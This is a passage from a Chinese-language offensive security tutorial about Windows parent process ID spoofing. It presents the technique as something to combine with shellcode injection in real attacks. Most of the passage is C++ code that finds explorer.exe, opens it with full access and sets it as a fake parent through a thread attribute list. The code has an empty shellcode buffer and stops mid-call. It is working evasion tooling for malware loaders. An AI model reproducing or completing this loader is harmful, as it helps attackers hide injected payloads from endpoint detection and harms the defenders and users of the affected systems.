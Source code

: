 通过以上代码进行实验可以看到，notepad.exe的父进程变成了explorer.exe

在实战中可以配合进程注入进行利用，创建一个进程修改其父进程并将shellcode注入到此进程中。但是通常进程注入很容易会被检测到，所以这里先提供一份基本的实现代码。

```c++
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>
#include <psapi.h>

// 获取目标进程pid
DWORD GetPidByName(const char * pName) {
    PROCESSENTRY32 pEntry;
    HANDLE snapshot;

    pEntry.dwSize = sizeof(PROCESSENTRY32);
    snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

    if (Process32First(snapshot, &pEntry) == TRUE) {
        while (Process32Next(snapshot, &pEntry) == TRUE) {
            if (_stricmp(pEntry.szExeFile, pName) == 0) {
                return pEntry.th32ProcessID;
            }
        }
    }
    CloseHandle(snapshot);
    return 0;
}

int main(void) {  
  	unsigned char shellcode[] = "";
    void * exec_mem;
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;

    // 初始化STARTUPINFOEX结构体
    STARTUPINFOEX info = { sizeof(info) };
    PROCESS_INFORMATION processInfo;
    SIZE_T cbAttributeListSize = 0;
    PPROC_THREAD_ATTRIBUTE_LIST pAttributeList = NULL;
    HANDLE hParentProcess = NULL;
    DWORD dwPid = 0;

    // 获取指定进程的PID
    dwPid = GetPidByName("explorer.exe");
    if (dwPid == 0)
        dwPid = GetCurrentProcessId();

    // 初始化进程线程属性列表
    InitializeProcThreadAttributeList(NULL, 1, 0, &cbAttributeListSize);
    pAttributeList = (PPROC_THREAD_ATTRIBUTE_LIST) HeapAlloc(GetProcessHeap(), 0, cbAttributeListSize);
    InitializeProcThreadAttributeList(pAttributeList, 1, 0, &cbAttributeListSize);

    // 打开指定PID的进程句柄
    hParentProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPid);
    // 更新进程线程属性，伪造父进程
    UpdateProcThreadAttribute(pAttributeList,
                                0,
                                PROC_THREAD_ATTRIBUTE_PARENT_PROCESS,
                                &hParentProcess,
                                sizeof(HANDLE),
```